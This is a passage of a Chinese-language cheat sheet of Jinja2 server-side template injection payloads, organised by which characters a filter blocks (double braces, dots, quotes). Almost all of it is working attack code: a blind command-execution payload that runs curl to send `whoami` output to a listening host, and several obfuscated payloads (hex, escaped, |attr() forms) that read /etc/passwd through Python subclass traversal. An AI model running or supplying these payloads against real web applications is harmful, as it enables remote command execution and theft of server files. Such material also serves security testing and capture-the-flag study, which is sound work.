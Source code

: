 

## ④ 双大括号过滤
利用{ % % }
```python
{ % if ''.__class__.__mro__[2].__subclasses__()[59].__init__.func_globals.linecache.os.popen('curl http://127.0.0.1:7999/?i=`whoami`').read()=='p' % }1{ % endif % }
```
相当于盲命令执行，利用curl将执行结果带出来
或者而类似布尔注入


## ⑤ . 被过滤
使用原生JinJa2函数|attr()
```python
?name={ { ()[(request|attr("args"))["class"]][(request|attr("args"))["base"]][(request|attr("args"))["sub"]]()[40]('/etc/passwd').read()} }&class=__class__&base=__base__&sub=__subclasses__
```

另一种形式（其他编码也可base64等）
```python
{ { []["5F5F636C6173735F5F"["decode"]("hex")]["5F5F626173655F5F"["decode"]("hex")]["5F5F737562636C61737365735F5F"["decode"]("hex")]()[40]("/etc/passwd")["72656164"["decode"]("hex")]() } }
```
![YoGozq.png](https://s1.ax1x.com/2020/05/20/YoGozq.png)

变形
```python
{ { []['\x5f\x5f\x63\x6c\x61\x73\x73\x5f\x5f']['\x5f\x5f\x62\x61\x73\x65\x5f\x5f']['\x5f\x5f\x73\x75\x62\x63\x6c\x61\x73\x73\x65\x73\x5f\x5f']()[40]('/etc/passwd')['\x72\x65\x61\x64']() } }
```



畸形方法
获取·

```python
{ { [1|float|string|list][0][1] } }
```
![Yo0pqI.png](https://s1.ax1x.com/2020/05/20/Yo0pqI.png)

## ⑥ 单双引号过滤
```python
__init__.__globals__['__builtins__']
# 转化成如下形式
__init__.__globals__.__builtins__
```

使用"request.args" 或者 "request.values" 亦或者前面的例子
python2 读举例
```python
?name={ { ().__class__.__bases__[0].__subclasses__()[40](request.args.aa).read()} }&aa=/etc/passwd
```
values 同理 数据为post
